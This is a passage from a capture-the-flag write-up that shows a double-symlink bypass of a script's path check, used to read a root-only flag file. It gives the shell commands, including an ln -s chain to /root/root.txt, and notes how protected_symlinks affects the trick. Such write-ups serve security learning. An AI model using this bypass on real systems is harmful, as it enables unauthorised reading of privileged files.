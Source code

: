 #### Double Symlinks

The script gets the content of the link, and makes sure that the target of the link doesn’t have “root” or “etc” in it. What it doesn’t check is if that target is itself is also a symlink. So I can make something like:

```

graph LR
    link1["🔗 a.png"] --> link2["🔗 b"]
    link2 --> rootfile["📄 /root/root.txt"]

```

This will pass the checks, and allow when it tries to `cat a.png`, it will print the flag.

It’s worth noting that [Protected Symlinks](https://sysctl-explorer.net/fs/protected_symlinks/) is enabled here (as is the default on Ubuntu):

```

bob@linkvortex:/$ sysctl fs.protected_symlinks
fs.protected_symlinks = 1

```

This means:

> symlinks are permitted to be followed only when outside a sticky world-writable directory, or when the uid of the symlink and follower match, or when the directory owner matches the symlink’s owner.

This protecting was developed specifically to address Time-of-Check to Time-of-Use (TOCTOU) vulnerabilities (which I’ll show in the next method), but also bites me here if I’m not careful. I need to avoid putting symlinks that I want to follow (like `b` above) in `/tmp`, `/var/tmp`, or `/dev/shm`, etc:

```

bob@linkvortex:/$ find / -type d -perm -0002 -perm -1000 2>/dev/null
/tmp
/tmp/.XIM-unix
/tmp/.ICE-unix
/tmp/.X11-unix
/tmp/.font-unix
/tmp/.Test-unix
/dev/mqueue
/dev/shm
/run/lock
/var/crash
/var/tmp

```

To exploit this, I’ll create the link `b` from the diagram above:

```

bob@linkvortex:/$ ln -s /root/root.txt /home/bob/.cache/b
bob@linkvortex:/$ ls -l /home/bob/.cache/b
lrwxrwxrwx 1 bob bob 14 Apr  8 20:58 /home/bob/.cache/b -> /root/root.txt

```
